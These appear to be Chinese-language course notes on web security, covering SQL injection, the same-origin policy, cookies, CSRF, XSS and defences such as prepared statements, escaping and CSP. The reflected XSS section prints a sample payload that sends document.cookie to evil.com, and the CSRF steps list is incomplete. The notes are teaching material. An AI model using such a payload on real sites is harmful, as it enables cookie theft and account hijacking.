## web security goals

- Integrity 完整性
  - 恶意网站不能篡改我的电脑或其他网站上的我的信息
- Confidentiality 保密性
  - 恶意网站不应该能够从我的电脑或其他网站得到机密信息
- Privacy  隐私
  - 恶意网站不应该能够监视我或我的网络活动
- Availability   可用性
  - 攻击者不能让网站不可以使用

## 针对server端的攻击

- 窃取敏感数据
  - 来自许多用户的数据
- 更改服务器数据
  - 影响用户
- 可以通过服务端对客户端发起攻击
- 假冒，模拟（用户端到服务端和服务端到用户端）

### Injection Attack 注入攻击

- 攻击者（一个用户）提供恶意的输入
- 服务器不检查输入格式
- 使攻击者能够在服务器上执行任意的代码

### 数据库

- 数据库作为独立的进程运行，由web服务器连接:

- web服务器发送来自传入HTTP请求的查询或命令;
- 数据库服务器返回相关值或修改/更新值;

### 数据库注入攻击

- 

- 一般登录的SQL语言为

- ```sql
  SELECT *
  FROM Users
  WHERE user='Username' AND pwd='password'
  # Username 和 password是用户输入的
  ```

- `--`为SQL语言的注释







### 解决SQL注入攻击的措施

- **净化用户的输入** sanitize user input

  - 检查或强制value或string不包含任何类型的命令

  - 禁止输入特殊字符或转义字符

- **输入转义** Input Escaping

  - 输入字符串应被解释为字符串而不是特殊字符
  - 自动给输入中的每个特殊字符(包括`\`和`'`)前都加上`\`

问题根源是将**数据和命令**混在一起了

- **prepared statement**
  - **分离data和code**，输入的内容不会被解析成可执行代码
  - 一项优化功能，在需要重复执行相同或相似的 SQL 语句时，可以提供更高的性能。 使用准备好的语句，我们将 SQL 语句模板发送到数据库，其中未指定某些参数的值。
  - 数据库对SQL语句模板进行解析、编译和查询优化，并存储结果而不执行它。 稍后再将数据绑定到准备好的语句。 
  - 代码在输入数据之前就已经编译好了，所以不论传入什么数据，都不会被当作代码执行



## 针对客户端的攻击

- 防止恶意网站监视或篡改用户信息或与其他网站的交互

- 由浏览器强制执行

### 特权分离

将操作的权限分割的越小越好，防止恶意网站做一些恶意操作

### 同源策略 Same-Origin Policy  一种防御措施（不足）

1. 浏览器中的每个站点都与所有其他站点隔离
2. 来自同一源的多个页面不被隔离



- 同源的站点，他们的Origin字符串完全一样
- 不同的origin之间不能互相访问对方的资源，同源的站点可以互相访问对方的资源
- accessed document的Javascirpt语句可以修改originating document的资源内容



### Cross-Site Attack

**CSRF: Cross-Site Request Forgery**

**XSS: Cross-Site Scripting**

#### CSRF

利用“ Web 服务器在连接会话中会识别用户的 cookie”这一特性来进行攻击，
第三方网站有可能伪造与同站请求完全相同的请求
服务器无法区分同站和跨站请求

**COOKIE**

HTTP协议无状态，服务器不会保留客户的信息，如果不设置cookie的话客户第二次来的时候服务器会不认识他

当浏览器第一次连接到 Web 服务器时，服务器会在响应中包含一个 Set-Cookie头

浏览器接收到set-cookie指令后，就会设置一个cookie，之后向服务器发送请求的时候就会附带上这个cookie

**cookie的结构**

每个 cookie 是一个name-value对

- domain和path，告诉浏览器要把这个cookie发给哪个网站
- name和value，服务器可以用这个name-value对来与相应资源建立连接

- secure：代表只能在https上发送
- no-secure：代表https和http都可以发送
- expire：设置cookie失效的时间，将expiration date设置为之前的时间，可以达到删除cookie的效果
  - 会话型cookie只是保存在浏览器的内存中，当浏览器被关闭时，cookie就失效了
  - 持久性cookie存在浏览器本地的文件中，只有当expiration时间到了之后才会使cookie失效
- httponly：cookie不能被JavaScript访问

**访问cookie的方式**

- 用户的浏览器在访问服务器的时候，会将cookie附带发送
- JavaScript可以通过`document.cookie`来访问或修改cookie

**cookie的发送原则**

不同的网站对应着不同的cookie，但是一个域名包含有cookie的域名的话，可以使用这个cookie



如果指定了secure，那么必须要用https协议才能使用cookie



##### CSRF的步骤

4、B给用户发一个转发包的请求，包中的内容是恶意的请求

5、用户会带着用户自己的cookie访问A


##### CSRF的防御

1. 验证 HTTP Referer 字段；
   - 网站给所有安全敏感的请求增加拦截器，检查Referer字段，检测请求的来源是否为合法的网站
   - 但是通过某些浏览器，Referer值可能会被篡改
   - 有些用户为了保护隐私，可以设置浏览器在发送请求时不提供referer
2. 在请求地址中添加 token 并验证；
   1. token是唯一的、秘密的、不可预测的值，由服务器端应用程序生成并以包含在客户端发出的后续 HTTP 请求中的方式传输到客户端。当发出后面的请求时，服务器端应用程序验证请求是否包含预期的token，如果token丢失或无效，则拒绝请求。
   2. **token不放在cookie中**，所以黑客要求user转发的请求中不会包括这个token，就会被server拦截
3. 在 HTTP 头中自定义属性并验证。

### XSS

攻击者将恶意脚本注入到受害者用户查看的网页中；脚本在用户浏览器中运行，可以访问页面数据。

#### 反射型XSS

**<非持久化>** 攻击者事先制作好攻击链接, 需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。

客户端访问恶意网站，点击钓鱼链接

```
http://bank.com/search.php?term=
<script> window.open(  "http://evil.com/?cookie = " +  document.cookie ) </script>
```

于是客户端访问了bank.com，server端返回（echo）一个HTML文件，内容为

```
<script> window.open("http://evil.com/?cookie = " +  document.cookie ) </script>
```

于是客户端执行了这段脚本，（可能是一些攻击指令或泄露重要信息），发送数据给attacker达到攻击的目的






#### 存储型XSS

**<持久化>** 代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，每当有用户访问该页面的时候都会触发代码执行，这种XSS非常危险，容易造成蠕虫，大量盗窃cookie


#### XSS的防御

- 检查输入是否符合预期形式(白名单而不是黑名单，因为各种JS语言的标识符太多了)

- 在将动态数据插入HTML之前对其进行转义（< > & " '）

| **Character** | **Escape** **Sequence** |
| ------------- | ----------------------- |
| <             | \&lt;                   |
| >             | \&gt;                   |
| &             | \&amp                   |
| “             | \&quot;                 |
| ‘             | \&#39;                  |



**CSP: content security policy**

HTTP头允许响应指定白名单，指示浏览器只执行或呈现那些来源的资源

浏览器自动禁止外部注入恶意脚本

e.g.

```javascript
script-src 'self' http://b.com; img-src *
//只允许来自于server自己或者http://b.com的scripts输入
//允许来自于任何地方的image
```


